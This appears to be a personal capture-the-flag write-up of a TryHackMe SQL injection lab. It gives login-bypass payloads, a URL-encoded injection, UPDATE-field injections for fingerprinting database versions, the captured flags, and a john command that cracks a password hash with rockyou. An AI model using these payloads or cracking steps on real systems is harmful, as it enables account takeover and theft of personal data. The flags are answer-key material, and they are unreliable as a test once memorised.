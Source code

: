 [TryHackMe | SQL Injection Lab](https://tryhackme.com/room/sqlilab)

# SQL Injection Lab

**Understand how SQL injection attacks work and how to exploit this vulnerability.**

```
http://10.10.218.93:5000/
```

![[Pasted image 20230704220049.png]]

http://10.10.184.158:5000/sesqli1/login?next=http%3A%2F%2F10.10.184.158%3A5000%2Fsesqli1%2Fhome

```
'1 or 1=1-- -
```

![[Pasted image 20230704220611.png]]

```
SELECT uid, name, profileID, salary, passportNr, email, nickName, password FROM usertable WHERE profileID='1 or 1=1-- - AND password = '47f274ce60fb8335f29cbe4437fc56108d099dfa914fad4064ec1239ada24f13'
```

```
1 or 1=1-- -
```

```
SELECT uid, name, profileID, salary, passportNr, email, nickName, password FROM usertable WHERE profileID=1 or 1=1-- - AND password = 'abbabb4d0029fc954aafabe7faed5d71c7997b1d28ee676cc0495da8c6efde88'
```

```
THM{dccea429d73d4a6b4f117ac64724f460}
```

![[Pasted image 20230704223143.png]]

http://10.10.184.158:5000/sesqli1/home

http://10.10.184.158:5000/sesqli2/home

```
1' or '1'='1'-- -
```

![[Pasted image 20230704223439.png]]

```
THM{356e9de6016b9ac34e02df99a5f755ba}
```

```
SELECT uid, name, profileID, salary, passportNr, email, nickName, password FROM usertable WHERE profileID = '1' or '1'='1'-- -' AND password = 'da45f5fec53621a955c6b72dbf48c338741a295cf9146d441c1cd650e35cbe42'
```

![[Pasted image 20230704223637.png]]

```
http://10.10.184.158:5000/sesqli3/login?profileID=-1%27%20or%201=1--%20-&password=a
```

```
SELECT uid, name, profileID, salary, passportNr, email, nickName, password FROM usertable WHERE profileID='-1' or 1=1-- -' AND password='ca978112ca1bbdcafac231b39a23dc4da786eff8147c4e72b9807785afee48bb'
```

```
THM{645eab5d34f81981f5705de54e8a9c36}
```

![[Pasted image 20230704224124.png]]

http://10.10.184.158:5000/sesqli4/login?next=http%3A%2F%2F10.10.184.158%3A5000%2Fsesqli4%2Fhome

```
SELECT uid, name, profileID, salary, passportNr, email, nickName, password FROM usertable WHERE profileID = '1' AND password = '9f86d081884c7d659a2feaa0c55ad015a3bf4f1b2b0b822cd15d6c15b0f00a08'
```
![[Pasted image 20230704224533.png]]
![[Pasted image 20230704225334.png]]

![[Pasted image 20230704225550.png]]

![[Pasted image 20230705064047.png]]

![[Pasted image 20230705064153.png]]

![[Pasted image 20230705070854.png]]

```
THM{727334fd0f0ea1b836a8d443f09dc8eb}|
```

*To identify what database is in use...*

### For MySQL and MSSQL

',nickName=@@version,email='

### For Oracle

',nickName=(SELECT banner FROM v$version),email='

### For SQLite

',nickName=sqlite_version(),email='

http://10.10.218.93:5000/sesqli5/login

```
SELECT uid, name, profileID, salary, passportNr, email, nickName, password FROM usertable WHERE profileID=? AND password=?
```

![[Pasted image 20230706055157.png]]

http://10.10.218.93:5000/sesqli5/home

![[Pasted image 20230706060132.png]]

http://10.10.218.93:5000/sesqli5/profile

![[Pasted image 20230706063419.png]]



https://www.onlinehashcrack.com/wh86lv20ap

```
find / -type f -name rockyou.txt 2>/dev/null
/usr/share/wordlists/rockyou.txt
```

![[Pasted image 20230704222216.png]]

```
47f274ce60fb8335f29cbe4437fc56108d099dfa914fad4064ec1239ada24f13
```
https://gchq.github.io/CyberChef/

```
john --format=raw-sha256 --wordlist=/usr/share/wordlists/rockyou.txt sqli1.txt
```

```
http://10.10.184.158:5000/downloads/
```

![[Pasted image 20230627224134.png]]

**06072023Thu**

```
http://10.10.144.133:5000/challenge1/
```

![[Pasted image 20230706214705.png]]

```
http://10.10.144.133:5000/challenge1/signup
```

![[Pasted image 20230706214821.png]]

![[Pasted image 20230706214930.png]]

```
http://10.10.144.133:5000/challenge1/home
```

![[Pasted image 20230706215118.png]]

![[Pasted image 20230706215937.png]]

spaceadmin

![[Pasted image 20230706220114.png]]

```
https://youtu.be/TiEQrwKRWjc?t=1686
```

**TryHackMe #301 SQL Injection Lab**
https://www.youtube.com/@AdamskiCTF

```
THM{f35f47dcd9d596f0d3860d14cd4c68ec}
```

![[Pasted image 20230706221958.png]]

